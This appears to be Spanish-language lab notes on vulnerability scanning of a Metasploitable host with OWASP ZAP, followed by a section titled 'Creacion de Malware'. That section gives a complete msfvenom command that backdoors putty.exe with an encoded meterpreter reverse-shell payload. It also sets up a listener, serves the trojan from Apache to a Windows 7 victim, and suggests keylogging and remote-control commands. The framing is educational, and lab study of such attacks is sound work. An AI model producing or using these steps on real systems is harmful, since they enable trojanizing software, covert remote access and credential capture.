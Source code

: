 - Analiza la IP de Kali y anota alguna algunas de sus vulnerabilidades usando [CVE](https://www.cve.org/), [CVSS](https://www.cvedetails.com/) o [EPSS](https://www.first.org/epss/)

**Usar [zaproxy](https://www.kali.org/tools/zaproxy/) via Kali**
- Inicia Kali en modo adaptador de red "Red NAT"
- Iniciar `owasp-zap` desde el menu kali
- selecciona la primera opcion la primera vez que lo abras "`Yes, i want to persist this session with name based on the current timestamp`"
- Ingresa la siguiente IP modificando {ip-metasploitable} por la ip de metasploit
- `http://{ip-metasploitable}/multillidae/index.php?page=user-info.php`
- Una vez finalize el analisis, te dara un reporte de las vulnerabilidades reportadas

## Creacion de Malware
Maquinas
- [Kali](https://www.kali.org/)
- Win 7

Herramientas
- [Putty](https://tartarus.org/~simon/putty-snapshots/w32/): Link a la version x86 32 Bits, debes descargar `putty.exe`
	- Descarga con Curl: `wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe`
- Ayuda
	- [Offsec Blog- Backdooring Exe Files](https://www.offsec.com/metasploit-unleashed/backdooring-exe-files/) 
	- [Metasploit Docs - How to use a Reverse Shell](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html)
	- [Medium Blog - Create Reverse Shell](https://medium.com/@jbtechmaven/ethical-hacking-reverse-shell-attack-using-metasploit-57e9cd400c88)

Pasos
> [!NOTE] Nota
> lhost or listener port: {ip-kali}
> lport or listener port: {port-kali-free} or 4444

- Recuerda modificar los parametros {ip-kali} por la ip de tu maquina
```
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost={ip-kali} lport=4444 -e x86/shikata_ga_nai -i 10 -b "\x00" -f exe -o putty32virus.exe
```
- Abre una consola extra y ejecuta `msfconsole`
- `use exploit/multi/handler`
- `set PAYLOAD windows/meterpreter/reverse_tcp`
- `set LHOST {ip-kali}`
- `set LPORT 4444`
- `exploit`
- Vuelve a tu consola principal
- Instala servidor apache con `apt-get install apache2`
- Activa servidor con `systemctl start apache2`
- Mueve el archivo `putty32virus.exe` a `/var/www/html`
- Si no funciona elimina el archivo `/var/www/html/index.html`
- Abre tu maquina Win 7
- Abre la IP de Kali en el navegador
- Descarga y ejecuta el archivo, de esta forma ya puedes usar tu consola de kali con `msfconsole` para controlar la maquina, te dejo algunas ideas
	- `keyscan_start` -> (escribe informacion en windows) -> `keyscan_dump` -> `keyscan_stop`
	- `shell` -> `starte explorer.exe` -> `exit` -> `keyboard_send google.com` -> `keyevent 13` (debes encontrar el evento a la key de enter) -> `shell` -> `TASKKILL /F /IM explorer.exe`
